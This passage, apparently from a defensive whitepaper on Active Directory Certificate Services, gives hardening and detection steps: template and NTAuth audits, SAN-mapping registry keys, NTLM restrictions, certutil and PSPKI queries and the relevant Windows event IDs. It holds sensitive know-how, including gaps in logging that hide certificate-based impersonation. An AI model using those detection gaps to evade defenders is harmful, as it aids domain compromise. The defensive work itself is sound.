|  | THESHIRE Enterprise Admins (Allow) - Read, Write, Enroll |
|  | THESHIRE\localadmin (Allow) - Read, Write |

Figure 77 – Sample Invoke-PKIAudit Output

For templates that allow SAN specification via the CT FLAG ENROLLEE SUPPLIES SUBJECT flag AND allow for domain authentication, there are a few approaches for mitigation. If the template does not actually require SAN specification, the first option is to remove the "Supply in Request" setting under the "Subject Name" settings for any affected template (this will disable the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag):



Fiqure 78 - Vulnerable "Supply in the request" Subject Name Specification

Another option is to enable certificate approvals on the template:

| UserMod Properties |  | ﻟﻴﺔ ﺍ |
| --- | --- | --- |
| General Request Handling Cryptography | Compatibility | Kev Attestation |
| Extensions Security | Superseded Templates | Server |
| Issuance Requirements | Subject Name |  |
| Require the following for enrollment: |  |  |
| V CA certificate manager approval |  |  |
| This number of authorized signatures: 0 |  |  |
| If you require more than one signature, autoenrollment is not allowed. |  |  |
| Policy type required in signature: |  |  |
|  |  | 24.10 |

Figure 79 - Constraining Certificate Enrollments with Manager Approvals

Also, under "Issuance Requirements", administrators can configure authorized signatures to enact CSR signing restrictions for the template. There is more information on approvals and signatures in the Issuance Requirements section.

If an organization needs the "Supply in Request" setting enabled, please read Microsoft's guidance on this subject-66 and restrict which users/groups have enrollment privileges to the template as much as possible. Administrators can restrict enrollment privileges by modifying the

security descriptor of the template to only allow carefully controlled groups to enroll, remembering that any principal with "Enroll" rights can obtain certificate as any domain user:

| UserMod Properties |  |  | ? |
| --- | --- | --- | --- |
| General Compatibility | Request Handling | Cryptography | Key Attestation |
| Subject Name |  | Issuance Requirements |  |
| Superseded Templates | Extensions | Security | Server |
| Group or user names: |  |  |  |
| Authenticated Users |  |  |  |
| localadmin |  |  |  |
| hamj0y (hamj0y@theshire.local) |  |  |  |
| Domain Admins (THESHIRE\Domain Admins) |  |  |  |
| Domain Users (THESHIRE\Domain Users) |  |  |  |
| Enterprise Admins (THESHIRE\Enterprise Admins) |  |  |  |
| Add ... |  |  | Remove |
| Pemissions for Domain Users |  | Allow | Deny |
| Full Control |  |  |  |
| Read |  |  |  |
| Write |  |  |  |
| Enroll |  |  |  |
| Autoenroll |  |  |  |
| For special permissions or advanced settings, click |  |  |  |
| Advanced. |  |  | Advanced |
| OK | Cancel | Apply | Help |

Figure 80 - Constraining Certificate Enrollments Through Security Descri

When auditing template security descriptors, analyze enrollment permissions and the following settings that could grant write access to the template:

- The owner of the security descriptor ●
- FullControl, WriteDacl, WriteOwner, or WriteProperty permissions to the template ●

With write access to a template, attackers could reconfigure it to a vulnerable state, hence why defenders should audit those permissions as well.

When auditing enrollment permissions, for each published template, analyze the EKUs in "Enhanced Key Usage" for schema version 1 templates and "Application Policies" for schema version 2 templates. Ensure that the template specifies the minimum number of EKUs necessary to function. If a template has "powerful" EKUs - the EKUs are null (i.e., a subordinate CA) or contain All Purpose, Certificate Request Agent, or other sensitive EKUs - restrict the enrollment in the certificate to only privileged groups. In addition, review templates with EKUs that enable domain authentication (see the table below) and ensure they are necessary:

| Description | OID |
| --- | --- |
| Client Authentication | 1.3.6.1.5.5.7.3.2 |
| PKINIT Client Authentication | 1.3.6.1.5.2.3.4 |
| Smart Card Logon | 1.3.6.1.4.1.311.20.2.2 |
| Any Purpose | 2.5.29.37.0 |
| SubCA | (no EKUs) |

| Vuln Template Properties |  | ? |
| --- | --- | --- |
| Subject Name | Issuance Requirements |  |
| General Compatibility Request Handling | Cryptography | Key Attestation |
| Extensions Superseded Templates | Security | Server |
| To modify an extension, select it, and then click Edit. |  |  |
| Extensions included in this template: |  |  |
| Application Policies |  |  |
| Basic Constraints |  |  |
| Certificate Template Information |  |  |
| Issuance Policies |  |  |
| Key Usage |  |  |
|  |  | Edit ... |
| Description of Application Policies: |  |  |
| Client Authentication |  |  |
| Secure Email |  |  |
| Encrypting File System |  |  |

Figure 81 - A Template with an EKU that Enables Domain Authentication in the Certificate MMC Snap-in

#### Attack IDs:

- Misconfigured Certificate Templates ESC1 ●
- Misconfigured Certificate Templates ESC2 ●
- Misconfigured Enrollment Agent Templates - ESC3
- Vulnerable Certificate Template Access Control ESC4 ●

### Audit NTAuthCertificates - PREVENT5

Recall from the Kerberos Authentication and the NTAuthCertificates Container section that the NTAuthCertificates AD object defines CA certificates that enable authentication to AD. Administrators can view these certificates in a variety of ways:

- Certify:Certify.exe cas ●
- Certutil:certutil -viewstore ● "ldap:///CN=NtAuthCertificates,CN=Public Key

Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>?cACert ificate?base?objectclass=certificationAuthority"

- MMC: Open pkiview.msc → Right click on Enterprise CA → Manage AD Containers → . Go to the NTAuthCertificates tab
If smart card authentication is not in use and the network does not require certificate authentication to AD, consider removing all the certificates from the NTAuthCertificate object. This will prevent authentication to AD using certificates. You can delete certificates from the NTAuth store with certutil.exe by running the following from a domain elevated prompt:

certutil -viewdelstore "ldap:///CN=NtAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>?cACertifica te?base?objectclass=certificationAuthority"



Figure 82 - Deleting Certificates from the NTAuth store with certutil.exe

Alternatively, administrators can run pkiview.msc → right click on the "Enterprise PKI" node → select "Manage AD Containers" → Select a certificate → Click the remove button:

| pkiview - [Enterprise PKI] |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| File Action | View Help |  |  |  |  |  |
| f | a = 17 |  |  |  |  |  |
| 用 Enterprise PKI |  | Name | Status |  | Expiration Date | Location |
| theshire-DC-CA (V0.0) |  | theshire-DC-CA (V0.0) | Warning |  |  |  |
| Manage AD Containers |  |  |  |  | × |  |
|  | Certification Authorities Container |  | Enrollment Services Container |  |  |  |
| NTAuthCertificates |  | AIA Container | CDP Container | KRA Container |  |  |
| Name |  |  | Status |  |  |  |
| theshire-DC-CA |  |  | OK |  |  |  |
| Add ... |  | Remove View ... |  |  |  |  |
|  |  |  | OK | Cancel |  |  |

Fiqure 83 - Viewing Existing Certs in the NTAuth Store with pkiview

Organizations can also enumerate certificates in NTAuth with the PSPK1462 PowerShell module:

Install-Module PSPKI -Scope CurrentUser Import-Module PSPKI

Get-AdPkiContainer -ContainerType NTAuth | Select-Object -Expand Certificates | Select-Object -Expand Certificate | select *

PSPKI can remove certificates from the NTAuthCertificates object using its certificate thumbprint:

Get-AdPkiContainer -ContainerType NTAuth | Remove-AdCertificate -Thumbprint "EC9385E533782453D5C285B2A67311447FB57A6F" -Dispose

Attack IDs:

- Trusting Rogue CA Certificates DPERSIST2 ●
## Secure Certificate Private Key Storage - PREVENT6

Organizations should ideally protect CA private keys at the hardware level to prevent simple theft via DPAPI. Microsoft's "Securing PKI: Protecting CA Keys and Critical Artifacts" 163 documentation details how to migrate from software keys to hardware security modules (HSMs), which we highly recommend.

Microsoft's Credential Guard documentation does make claims that it will help secure certificates164 165, although it is unclear to what extent. We have yet to examine Credential Guard's effectiveness in protecting certificates. For example, using the DPAPI backup protocol may be enough to recover certificates on domain-joined devices (we have not tested it). Nonetheless, organizations should strive to enable Credential Guard if they can as it provides a myriad of credential protections beyond just certificates.

On workstations and servers, TPM protection of private keys should also prevent theft via DPAPI by malicious actors. Consider enabling certificate TPM attestation166 in the environment to make AD CS only accept certificates with private keys protected by an TPM.

#### Attack IDs:

- Exporting Certificates Using the Crypto APIs – THEFT1
- Forging Certificates with Stolen CA Certificates DPERSIST1 ●

## Enforce Strict User Mappings - PREVENT7

During certificate authentication, AD maps a certificate to an AD account. Kerberos and SChannel commonly use a UPN specified in a certificate's subject alternative name (SAN) to map the authentication request to an identity in AD. If organizations do not need to use SANs, they can disable SAN user mapping by setting a couple of sparsely documented registry keys.

At HKLM\SYSTEM\CurrentControlSet\Services\Kdc on a domain controller, setting the DWORD value of UseSubjectAltName to O forces an explicit mapping during Kerberos authentication. While an attacker can still request (and receive) a certificate with a different SAN, attempting to use the certificate for Kerberos authentication will result in error "75

KDC ERR CLIENT NAME MISMATCH". More details on the mechanics of PKINIT explicit mapping are at "[MS-PKCA] Section 3.1.5.2.1.3 Explicit Mappinq"167. For this approach to be effective, this registry key needs to be set on every domain controller in the environment. Microsoft originally published information about this registry value KB4043463 but removed the KB article at some point in the last few years; PKISolutions has thankfully preserved a copy of the KB article.168 Now, the only official documentation is a short paragraph describing the setting 169.

Kerberos, though, is not the only security package that supports certificate-based authentication. To fully disable SAN user mapping, organizations also need to disable SAN user mapping for SChannel as well. This is controlled by the registry value CertificateMappingMethods in the HKLM\CurrentControlSet\Control\SecurityProviders\SCHANNEL key. Some documentation very vaguely describes this registry key20. Through reversing engineering schannel.dll(see the SslLocalMapCredential and SslMapCertToUserPac methods) and accidentally encountering the leaked Server 2003 source code, we eventually found the possible bitmask values:

- 0x1 = SP_REG_CERTMAP_SUBJECT_FLAG ●
- 0x2 = SP REG CERTMAP ISSUER FLAG
- 0x4 = SP REG CERTMAP UPN FLAG
- . 0x8 = SP REG CERTMAP S4U2SELF FLAG

From our experimentation, setting this key to either 0x1 or 0x2 successfully blocks the usage of SANs via SChannel authentication. However, more investigation is likely needed to ensure this is a sufficient protection.

While setting these keys will not prevent certificate authentication, we have heard of organizations using these keys to restrict the forms of certificate authentication allowed.

#### Attack IDs:

- Misconfigured Certificate Templates - ESC1
- Misconfigured Certificate Templates - ESC2
- EDITF ATTRIBUTESUBJECTALTNAME2 ESC6 ●

# Harden AD CS HTTP Endpoints – PREVENT8

Organizations should remove AD CS HTTP endpoints if they are not required. To enumerate which HTTP endpoints are enabled, IT administrators can look at the installed AD CS server roles on the CA servers:



Removing AD CS Server Roles Using the "Remove Roles and Features" Wizara

IIS hosts the AD CS HTTP endpoints. As such, organizations could use IIS access logs as one technique to determine how often each endpoint is used. By default, these logs are located at C:\inetpub\logs\LogFiles\ on the AD CS server. Similarly, detection engineers could use the IIS logs as a telemetry source.

lf these endpoints are necessary, enforce HTTPS access to them and restrict NTLM. We present the following ideas but have not tested their viability in a real production environment:

- Disable NTLM authentication ●
	- ் At the host level. On AD CS servers, configure GPOs to set Computer Configuration → Windows Settings → Security Settings → Local Policies → Security Options → "Network security: Restrict NTLM: Incoming NTLM traffic" to "Deny All Accounts" and add exceptions as necessary using the setting "Network security: Restrict NTLM: Add server exceptions in this domain." The other "Restrict NTLM settings" value can also be enabled to better audit NTLM usage in an environment.
	- o At the IIS level. Disable authentication providers for each IIS application associated with an AD CS HTTP endpoint. For example, the following screenshot shows the removing the default "NTLM" and "Negotiate" Authentication providers from the "CertSrv" application and replacing them with "Negotiate:Kerberos":

| Internet Information Services (IIS) Manager |  |  |  |
| --- | --- | --- | --- |
| CORPDC01 > Sites > Default Web Site > CertSrv > |  |  |  |
| File View Help |  |  |  |
| Connections | Authentication |  |  |
| 2 |  |  |  |
| Start Page | Group by: No Grouping |  |  |
| CORPDC01 (CORP\itadmin) |  |  |  |
| Application Pools | N Name | Status | Response Type |
| . Sites | Anonymous Authentication | Disabled |  |
| Default Web Site | ASP.NET Impersonation | Disabled |  |
| ADPolicyProvider_CEP_Kerberos | Forms Authentication | Disabled | HTTP 302 Login/Redirect |
| aspnet_client | Windows Authentication | Enabled | HTTP 401 Challenge |
| CertEnroll |  |  |  |
| CertSrv | Providers |  | ? × |
| CORP-CORPDC01-CA_CES_Kerberos |  |  |  |
|  | Enabled Providers: |  |  |
|  | Negotiate: Kerberos |  | Move Up |
|  |  |  | Move Down |
|  |  |  | Remove |
|  | Select a provider from the list of available providers and click Add |  |  |
|  | to add it to the enabled providers. |  |  |
|  | Available Providers: |  |  |
|  |  |  | Add |
| Configuration: 'localhost' applicationHost.config , < loc | Negotiate |  |  |
|  | NTLM |  |  |

Figure 85 - Disabling NTLM Authentication Providers for an AD CS IIS Application

- If disabling NTLM is infeasible, enforce HTTPS and enable Extended Protection for Authentication171:
<sup>171</sup> 



Figure 86 - Enabling Extended Protection for Authentication in IIS

In addition, if you find you are vulnerable to this, consider contacting your nearest Microsoft representative and question them as to why this insecure default configuration is allowed. As of right now, they have no intentions of directly servicing the issue, but it may fix at some indeterminate future date.

#### Attack IDs:

- NTLM Relay to AD CS HTTP Endpoints ESC8
# Detective Guidance

If you cannot stop attackers performing these types of actions, the next defensive-in-depth push should be detection. Since the same event could be legitimate in one environment but malicious in another, we cannot give a definitive answer as to which events should cause alarm, but we will break down every event we know about per malicious action we talked about.

When collecting these events, we enabled very verbose logging to ensure maximum visibility. This included doing the following:

- 1. Enabling all CA audit logs by opening certsrv.msc → right clicking on the CA → Auditing. AD CS unfortunately does not enable any of these logs by default, so it is critical for network defenders to enable them on each CA to gain visibility. These settings correspond with the located at HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA NAME>. Enabling these logs causes AD CS to write events to the Security event log with a task category of Certification Services.


Fiaure 87 - Ena

- 2. Enabling Success/Failure logging of all the Windows advanced audit logs under the GPO setting Computer Configuration → Windows Settings → Security Settings → Advanced Audit Policy Configuration
- 3. Enabling Success/Failure logging of all the Windows audit logs under the GPO setting Computer Configuration → Windows Settings → Local Policies → Audit Policy

We recognize that it is unrealistic for most organizations to enable all Windows and AD CS audit logs. However, we attempt to call out the most relevant events in our detection advice.

## Monitor User/Machine Certificate Enrollments - DETECT1

When an account requests a certificate, the CA generates event ID (EID) 4886 "Certificate Services received a certificate request"173:

| Event 4886, Microsoft Windows security auditing. |  |  |  |
| --- | --- | --- | --- |
| General Details |  |  |  |
| Certificate Services received a certificate request. |  |  |  |
| Request ID: 176 |  |  |  |
| Requester: | THESHIRE\harmj0y |  |  |
| Attributes: |  |  |  |
| ccm:dev.theshire.local |  |  |  |
| Log Name: | Security |  |  |
| Source: | Microsoft Windows security | Logged: | 3/8/2021 10:17:53 PM |
| Event ID: | 4886 |  | Task Category: Certification Services |
| Level: | Information | Keywords: | Audit Success |
| User: | N/A | Computer: | dc.theshire.local |
| OpCode: Info |  |  |  |
| More Information: | Event Loq Online Help |  |  |

Figure 88 - Event 4886: Certificate Services Received a Certificate Request

When the CA issues the certificate, it creates EID 4887 "Certificate Services approved a certificate request and issued a certificate"174:

<sup>174</sup> 

| Event 4887, Microsoft Windows security auditing. |  |  |  |  |
| --- | --- | --- | --- | --- |
| General Details |  |  |  |  |
| Certificate Services approved a certificate request and issued a certificate. |  |  |  |  |
| Request ID: 184 |  |  |  |  |
| Requester: | THESHIRE\harmj0y |  |  |  |
| Attributes: |  |  |  |  |
| ccm:dev.theshire.local |  |  |  |  |
| Disposition: 3 |  |  |  |  |
| SKI: | 9b a0 0c 8b b3 96 3a 94 9d ff ba 23 41 c2 38 49 96 87 9f 63 Subject: CN=harmj0y, OU=TestOU, DC=theshire, DC=local |  |  |  |
| Log Name: | Security |  |  |  |
| Source: | Microsoft Windows security Logged: | 3/9/2021 11:11:14 AM |  |  |
| Event ID: | 4887 | Task Category: Certification Services |  |  |
| Level: | Information Keywords: | Audit Success |  |  |
| User: |  |  | N/A Computer: dc.theshire.local |  |
| OpCode: |  |  |  | Info |
| More Information: | Event Log Online Help |  |  |  |

Figure 89 - Event 4887: Certificate Services Approved a Certificate Request and Issued a Certificate

The event supplies the requester user context, the DNS hostname of the machine they requested the certificate from, and the time they requested the certificate. The attributes fields in these event commonly has values for CDC, RMD, and CCM which correspond to Client DC, Request Machine DNS name, and Cert Client Machine, respectively175.

However, a lot of valuable context that is present in a CSR does not get surfaced. For example,

- 1. The event log does not expose all certificate attributes or extensions. As such, if an attacker specifies an alternate user in either of the fields (e.g., in the SAN extension), attackers could perform user impersonation and privilege escalation via insecure certificate templates and remain undetected.
- 2. The certificate template name does not appear.
- 3. CSRs created by Windows applications and services contain information such as process names or HTTP user agents.

Although not exposed via the Windows event log, a CA does store the CSR and detailed certificate information in its database. A CA's database is a JET/ESE database that lives as a file on the AD

<sup>175</sup> 

CS server. One can query this log and obtain the original CSR and other information, but to our knowledge, Microsoft has not exposed a programmatic way to get this information in real-time.

One can query the CA database in multiple ways. Running certutil.exe -v -view will output very detail information about all certificates. Because there are likely thousands of requests in an enterprise environment, filtering can occur using the - restrict parameter176 177. For example, the command

```
certutil.exe -v -view -restrict
"Disposition=20,Request.SubmittedWhen>=5/21/2021 11:15
AM,RequesterName=CORP\itadmin" -gmt -out requestername,rawrequest
```
will show the Windows user that submitted the CSR (-out requestername) and will display the parsed CSRs (-v for verbose output, -out rawrequest to show the CSR) for issued certificates (Disposition=20) submitted after May 21, 2021 at 11:15 AM (local time) where the requesting user was CORP\itadmin, displaying all times in GMT (-gmt).

The following screenshots highlight data in CSRs that we feel are especially valuable to incident responders and detection engineers. The screenshots show the output from the above certutil.exe command, but regardless of the collection method, we feel this data is valuable. First the output shows the date when the CA received the CSR from the client followed by the base64 CSR:

| C:\/certutil.exe -v -view -restrict "Disposition=20,Request.SubmittedWen>=5/21/2021 11:15 PM,RequesterName=CORP\itadmin" -gmt -our requestervame,rawrequest |  |  |
| --- | --- | --- |
| '5/21/2021 6:15 PM GMT" |  |  |
| Schema: |  |  |
| Column Name | Localized Name | Type MaxLength |
| Request.RequesterName | Requester Name | String 2048 -- Indexed |
| Request. RawRequest | Binary Request | Binary 65536 |
| Row 1: |  |  |
| Requester Name: "CORP\itadmin" |  |  |
| 8000 43 00 4+ 00 52 00 50 00 | 5c 00 69 00 74 00 61 00 | C.O.R.P.\.i.t.a. |
| 0010 64 00 6d 60 69 00 6e 00 |  | d.m.i.n. |
| Binary Request: |  |  |
| ----- BEGIN NEW CERTIFICATE REQUEST ----- |  |  |
| MIIEijCCA3ICAOAwTzEVMBMGCgmSJomT8ixkARkWBUxPO0FMMROwEgYKCZImiZPy |  |  |
| LGQBGRYEQ09SUDEOMAwGA1UEAwwFVXNlcnMxEDAOBgNVBAMMB210YWRtaW4wggEi |  |  |

Figure 90 - Certuil.exe Showing the CSR Submission Date

lt then shows the Subject of the certificate and the public key associated with the private key that signed the CSR:

<sup>177</sup> 

```
PKCS10 Certificate Request:
Version: 1
Subject:
    CN=itadm
    CN=Users
    DC=CORP
    DC=LOCAL
 Name Hash(sha1): c291ed61e46bcb393ea558ac43970f1f1fc30a64
 Name Hash(md5): b2a35c348dc71225e5e33cd81df3d7e7
Public Key Algorithm:
    Algorithm ObjectId: 1.2.840.113549.1.1.1 RSA
    Algorithm Parameters:
    05 60
Public Key Length: 2048 bits
Public Key: UnusedBits = 0
    0000  30 82 01 0a 02 82 01 01  00 d3 b5 11 a3 71 52 13
         19 e4 8a 7c e2 86 01 64
                                   3b bf f7 1d 21 53 3d e1
    0010
```
Figure 91 - Certuil.exe Showing the CSR's Subject and Public Key Fields

The output then displays attributes specified in the CSR. This is valuable contextual information about the requester, including OS version, user/process information, and the requested cryptographic service provider (CSP):

```
Request Attributes: 4
 4 attributes:
 Attribute[0]: 1.3.6.1.4.1.311.13.2.3 (OS Version)
   Value[0][0], Length = c
       6.2.9200.2
 Attribute[1]: 1.3.6.1.4.1.311.21.20 (Client Information)
   Value[1][0], Length = 35
   Client Id: = 5
   ClientIdDefaultRequest -- 5
   User: CORP\itadmin
   Machine: CORPDC01.CORP.LOCAL
   Process: Certify.exe
 Attribute[2]: 1.3.6.1.4.1.311.13.2.2 (Enrollment CSP)
   Value[2][0], Length = 58
   CSP Provider Info
   KeySpec = 2
   Provider = Microsoft Strong Cryptographic Provider
   Signature: UnusedBits=0
```
Figure 92 - Certutil.exe Showing Client-Supplied CSR Attributes

AD CS does not require the requester to supply all these fields; however, if an application uses the Windows COM object to submit a CSR, the COM object will auto-populate these fields. Detection engineers can baseline these fields in their environments and alert on anomalous values (e.g., abnormal OS versions or processes) or anomalous omissions of these values.

The certutil.exe output ends with showing certificate extensions the client supplies in the CSR. Particularly valuable information includes the certificate template name and the optional subject alternative name (the CA will only use the SAN if the template has the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag enabled):



Figure 93 - Certificate Attributes when Querying Issued Certificates with Certutil

As shown, certutil.exe can query the CA database to surface this info, but the output is not in a nice machine-parseable format. PKISolutions has built a fantastic PowerShell/C# tool called PSPK1178 that one can use to query the CA's database. Using PSPKI, we built PSPKIAudit™, a PowerShell auditing tool for network defenders that exposes much of the above information. PSPKIAudit's Get-CertRequest function wraps various PSPKI functionality to return information (including SAN presence) about certificate requests:


<sup>179</sup> 

| Ps c:\users\harmf0y\source\GitLab\nspkiaudit> Get-CertRequest -CAComputerName dc.theshire.local -HaSSAN |  |
| --- | --- |
| CA | : dc.theshire.local\theshire-DC-CA |
| RequestID | : 4602 |
| RequesterName | : THESHIRE\harmjOy |
| RequesterMachineName | : dev.theshire.local |
| RequesterProcessName | : Certify.exe |
| SubjectAltNamesExtension : |  |
| SubjectAltNamesAttrib | : Administrator |
| serialNumber | : 55000011faef0fab5ffd7f75b30000000011fa |
| CertiticateTemplate | : ESC1 Template |
|  | (1.3.6.1.4.1.311.21.8.10395027.10224472.4213181.15714845.1171465.9.10657968.9897558) |
| RequestDate | : 6/3/2021 5:54:51 PM |
| StartDate | 6/3/2021 5:44:51 PM |
| EndDate | : 6/3/2022 5:44:51 PM |

PKIAudit's Get-CertReauest Showina an Issued Certificate

If a certificate enrollment is determined to be malicious, administrators can revoke the certificate through certsrv.msc or PSPKI's Revoke-Certificate 300 function. Keep in mind that Get-CertRequest has only been tested against PKCS #10 formatted CSRs as they are the most common. However, AD CS also supports requesting certificates with Cryptographic Message Syntax (CMS), Certificate Management Messages (CMS), and Netscape KEYGEN Tag Request Format181.

Attack IDs: PERSIST1, PERSIST2, ESC1, ESC2, ESC3, ESC4, ESC6

- Active User Credential Theft via Certificates PERSIST1 ●
- Machine Persistence via Certificates - PERSIST2
- Misconfigured Certificate Templates - ESC1
- Misconfigured Certificate Templates - ESC2
- Misconfigured Enrollment Agent Templates - ESC3
- Vulnerable Certificate Template Access Control ESC4 ●
- EDITF ATTRIBUTESUBJECTALTNAME2 ESC6 ●

### Monitor Certificate Authentication Events - DETECT2

Recall that both Kerberos (via PKINIT) and SChannel support certificate-based authentication. Some environments rarely use these authentication protocols (particularly SChannel). As such, monitoring for logon events using these protocols can detect abnormal activity in the environment.

For Kerberos, when a user authenticates with a certificate, the DC generates event ID 4768 "A Kerberos authentication ticket (TGT) was requested"182 in the Security event log. Of note,

because certificate authentication occurred, the event populates the "Certificate Information" fields with the authenticating certificate's Issuer, Serial Number, and Thumbprint:

| Event 4768, Microsoft Windows security auditing. |
| --- |
| General Details |
| A Kerberos authentication ticket (TGT) was requested. |
| Account Information: |
| Account Name: localadmin |
| Supplied Realm Name: theshire.local |
| User ID: THESHIRE\localadmin |
| Service Information: |
| Service Name: krbtat |
| Service ID: THESHIRE\krbtgt |
| Network Information: |
| Client Address: ::ffff:192.168.50.200 |
| Client Port: 50947 |
| Additional Information: |
| Ticket Options: 0x40800010 |
| Result Code: 0x0 |
| Ticket Encryption Type: 0x17 |
| Pre-Authentication Type: 16 |
| Certificate Information: |
| Certificate Issuer Name: theshire-DC-CA |
| Certificate Serial Number: 00947B3D58B807EBD4DC29731D2B6A6C1E |
| Certificate Thumbprint: 708CE4A643A5879678CF9F56C64BB58CF6FC84A8 |
| Certificate information is only provided if a certificate was used for pre-authentication. |

Figure 95 - Event 4768: A Kerberos Authentication Ticket (TGT) was Requested

Baselining normal PKINIT usage and alerting on abnormal usage is one detection strategy.

One potential detection for forged certificates created from a stolen CA certificate would be to generate a list of issued certificates and their serial numbers and thumbprints. Then, compare that list with a list generated from EID 4768 to enumerate which users have legitimately issued certificates via PSPKI/PSPKIAudit and compare the certificate serial numbers and certificate thumbprints with the list of certificates that any PKINIT TGT requests are only from this group.

When a client authenticates using SChannel, the DC can generate various events. By default (i.e., the CertificateMappingMethods registry key is not set) the DC will attempt to obtain information about the account specified in the certificate using S4U2Self. During this process it will first create EID 4769 "A Kerberos service ticket was requested", requesting a service ticket to itself:

| Event Properties - Event 4769, Microsoft Windows security auditing. |  |  |
| --- | --- | --- |
| General | Details |  |
| A Kerberos service ticket was requested. |  |  |
| Account Information: |  |  |
| CORPDC01$@CORP.LOCAL | Account Name: |  |
| Account Domain: |  | CORP.LOCAL |
| Logon GUID? |  | 15513c82a-1779-e/c6-3edd-5d546456b89e} |
| Service Information: |  |  |
| Service Name: |  | CORPDC01$ |
| Service ID: |  | CORP\CORPDC01$ |
| Network Information: |  |  |
| Client Address: |  | ::1 |
| Client Port: |  | 0 |
| Additional Information: |  |  |
| Ticket Options: |  | 0x40810000 |
| Ticket Encryption Type: |  | 0x12 |
| Failure Code: |  | 0x0 |
| Transited Services: |  |  |

Figure 96 - S4U2Self-related Event During SChannel Authentication

The DC will then create EID 4648 "A logon was attempted using explicit credentials". Of note in this event, the target account will be the user associated with certificate, the target server is "localhost" (i.e., it occurs on the DC), and the event includes the IP address of the host where the logon originated:

| Event Properties - Event 4648, Microsoft Windows security auditing. |  |
| --- | --- |
| General Details |  |
| A logon was attempted using explicit credentials. |  |
| Subject: |  |
| Security ID: | SYSTEM |
| Account Name: | CORPDC01$ |
| Account Domain: | CORP |
| Logon ID: | 0x3E7 |
| Logon GUID: | {00000000-0000-0000-0000-0000000000} |
| Account Whose Credentials Were Used: |  |
| Account Name: | itadmin |
| Account Domain: | CORP |
| Logon GUID: | {4cb2a2b5-e064-cd2f-b62d-6e6026b94430} |
| Target Server: |  |
| Target Server Name: | localhost |
| Additional Information: | localhost |
| Process Information: |  |
| Process ID: | 0×258 |
| Process Name: | C:\Windows\System32\lsass.exe |
| Network Information: |  |
| Network Address: 192.168.230.101 |  |
| Port: | 60512 |

Figure 97 - EID 4648 that Occurs During S4U2Self

Assuming the S4U2Self process completes successfully, the DC will generate EID 4624 "An account successfully logged on", specifying the Authentication Package as Kerberos (due to S4U2Self) and the Logon Process Name as Schanne1. EID 4624 will also include the information about the user specified in the certificate and the originating IP address:



Figure 98 - EID 4624 Showing Successful SChannel Authentication via S4U2Self

If S4U2Self fails or administrators have disable it via the CertificateMappingMethods registry key, but then authentication otherwise succeeds, then the DC will generate the following 4624 logon event. Note that the Logon Process is Schanne1 and the Authentication PackageisMicrosoft Unified Security Protocol Provider®

<sup>183</sup> 

| Event Properties - Event 4624, Microsoft Windows security auditing. |  |
| --- | --- |
| General Details |  |
| Subject: |  |
| Security ID: | NULL SID |
| Account Name: |  |
| Account Domain: |  |
| Logon ID: | 0x0 |
| Logon Information: |  |
| Logon Type: | 3 |
| Restricted Admin Mode: | - |
| Virtual Account: | No |
| Elevated Token: | Yes |
| Impersonation Level: | Impersonation |
| New Logon: |  |
| Security ID: | CORP\itadmin |
| Account Name: | itadmin |
| Account Domain: | CORP |
| Logon ID: | 0x10B7298 |
| Linked Logon ID: | 0x0 |
| Network Account Name: |  |
| Network Account Domain: - |  |
| Logon GUID: | {00000000-0000-0000-0000-0000000000} |
| Process Information: |  |
| Process ID: | 0x0 |
| Process Name: |  |
| Network Information: |  |
| Workstation Name: |  |
| Source Network Address: | 192.168.230.101 |
| Source Port: | 50406 |
| Detailed Authentication Information: |  |
| Logon Process: | Schannel |
| Authentication Package: | Microsoft Unified Security Protocol Provider |

Figure 99 - Logon Event Generate from the Schannel SSP

In summary, monitoring the Logon Process field in logon events (EID 4624) for a value of Schannel seems to be a reliable way to detect Schannel authentication.

#### Attack IDs:

- NTLM Credential Theft via PKINIT THEFT5 ●
- Forging Certificates with Stolen CA Certificates - DPERSIST1
- Trusting Rogue CA Certificates DPERSIST2 ●
- Misconfigured Certificate Templates ESC1 ●
- Misconfigured Certificate Templates ESC2 ●
- Misconfigured Enrollment Agent Templates ESC3 ●
- Vulnerable Certificate Template Access Control ESC4 ●
- EDITF ATTRIBUTESUBJECTALTNAME2 ESC6 ●

# Monitor Certificate Authority Backup Events - DETECT3

There are two specific AD CS audit events184 related to the backup of a CA through the certsrv.msc GUI, specifically EID 4876 "Certificate Services backup started"185 and EID 4877 "Certificate Services backup completed"186:

| Event 4876, Microsoft Windows security auditing. |
| --- |
| General Details |
| Certificate Services backup started. |
| Backup Type: 1 |
| Event Properties - Event 4876, Microsoft Windows security auditing. |
| Details General |
| · Friendly View XML View |
| + System |
| - EventData |
| BackupType 1 |
| SubjectUserSid S-1-5-21-3022474190-4230777124-3051344698-1103 |
| SubjectUserName itadmin |
| SubjectDomainName CORP |
| SubjectLogonId 0x7c463 |

6 - Certificate Services Backup Started



Figure 101 - EID 4877 Certificate Services Backup Completed

However, these events only fire when a backup the database/database log as well as the private key and CA certificate. i.e., if a user only selects the following when backing up the CA, AD CS will not generate any logs:

| Certification Authority Backup Wizard |  |  |  |
| --- | --- | --- | --- |
| Items to Back Up |  |  |  |
| You can back up individual components of the certification authority data. |  |  |  |
| Select the items you wish to back up: |  |  |  |
| Private key and CA certificate |  |  |  |
| Certificate database and certificate database log |  |  |  |
| Perform incremental backup |  |  |  |
| Back up to this location: |  |  |  |
|  |  | Browse ... |  |
| Note: The backup directory must be empty. |  |  |  |
| < Back | Next > |  | Help |

Figure 102 - Backing Only the CA Private Key via certsrv.msc

However, backing up the private key and CA certificate will result in other audit events. In particular, the OS generates the following series of events (shown in the screenshots below):

- 1. EID 5058 Key File Operation. That the subject is the user performing the backup, the KeyName corresponds with the name of the CA, the KeyType is MachineKey, and the ClientProcessId is the process performing the export (mmc.exe in this case). The KeyFilePath and Operation fields correspond with reading the CA's DPAPI-encrypted private key file (see the Exporting Certificates Using the Crypto APIs – THEFT1 and User Certificate Theft via DPAPI – THEFT2 sections for more information about private key storage and DPAPI).
- 1. EID 5061 Cryptographic operation. This shares many of the fields as EID 5058, just with less detail. The important thing to highlight in this event is that a user (the Subject fields) is opening (the Operation field) the CA's (specified KeyName field) private key.
- 2. EID 5059 Key migration operation. The fields in this event are the same as in EID 5058. The only difference is that the Operation field is "Export of cryptographic key."

| Event 5058, Microsoft Windows security auditing. |  |  |
